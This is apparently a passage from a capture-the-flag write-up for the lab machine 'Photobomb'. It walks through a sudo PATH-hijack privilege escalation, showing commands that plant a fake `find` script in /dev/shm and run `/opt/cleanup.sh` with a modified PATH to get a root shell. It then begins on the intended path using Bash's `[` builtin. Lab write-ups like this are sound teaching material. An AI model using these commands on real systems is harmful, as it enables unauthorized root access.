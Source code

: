 
### Path Hijack

#### Easy Path

There’s a very simple path hijack in the script. I’ll notice that all the
binaries called are referenced with full path except for that last `find`:

    
    
    # protect the priceless originals
    find source_images -type f -name '*.jpg' -exec chown root:root {} \;
    

That means that `bash` will search the directories specified in the `$PATH`
environment variable looking for a binary named `find`. Typically, it’ll find
`find` in `/usr/bin/find`.

But that’s where the `SETENV` becomes useful to me.

I’ll create a script called `find` in a temp space like `/dev/shm` and set it
as executable:

    
    
    wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash'        
    #!/bin/bash
    
    bash
    wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash' > find
    wizard@photobomb:/dev/shm$ chmod +x find
    

Running this `find` just starts a new `bash` instance as the current user.

Now I’ll run `cleanup.sh` as root but with the `PATH` variable including the
current directory at the front of the path:

    
    
    wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
    root@photobomb:/home/wizard/photobomb#
    

It returns a root shell. And I can read `root.txt`:

    
    
    root@photobomb:~# cat root.txt
    bbfa4b76************************
    

#### Intended Path

I’m not sure where the `find` without the full path got added in, but the
original submission required a bit more knowledge of Bash, and the builtin
`[`. One of the mistakes I would also make when trying to use the syntax `[ -s
/some/file ]` would be not including a space after the `[`. When you think of
`[` in the same category as `{` or `(` in a programming language, then the
space doesn’t make sense. But in Bash, `[` is actually the same as `test`, and
a program on the filesystem ([this
article](https://www.educative.io/courses/master-the-bash-shell/392YWp2pOv4)
shows more detail).

